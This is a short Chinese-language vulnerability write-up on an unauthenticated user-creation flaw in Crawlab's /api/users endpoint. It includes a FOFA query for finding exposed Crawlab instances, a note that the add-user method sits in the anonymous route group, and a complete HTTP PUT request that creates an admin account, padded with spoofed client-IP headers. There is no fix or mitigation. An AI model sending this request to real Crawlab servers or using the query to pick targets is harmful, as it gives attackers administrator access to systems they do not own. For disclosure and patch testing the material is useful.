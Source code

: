# Crawlab users 任意用户添加漏洞

## 漏洞描述

Crawlab users 的 api 存在任意用户添加，且添加为未授权接口，可通过添加后在后台进一步攻击

## 漏洞影响

```
Crawlab v0.0.1
```

## FOFA

```
title="Crawlab"
```

## 漏洞复现

登录页面

![](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205241444454.png)

首先查看路由位置 main.go 文件

![](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205241444511.png)

```
anonymousGrou 中为匿名可调用方法
authGroup	  中为认证可调用方法
```

可以看到 Putuser方法为添加用户，但存在匿名调用

![](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205241444706.png)

根据字段生成添加用户的请求

```
PUT /api/users HTTP/1.1
Host: 
Content-Length: 83
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.93 Safari/537.36
Content-Type: application/json;charset=UTF-8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: Hm_lvt_c35e3a563a06caee2524902c81975add=1639222117,1639278935; Hm_lpvt_c35e3a563a06caee2524902c81975add=1639278935
x-forwarded-for: 127.0.0.1
x-originating-ip: 127.0.0.1
x-remote-ip: 127.0.0.1
x-remote-addr: 127.0.0.1
Connection: close

{"username":"testppp","password":"testppp","role":"admin","email":"testppp@qq.com"}
```

![](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205241444367.png)

![](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205241444319.png)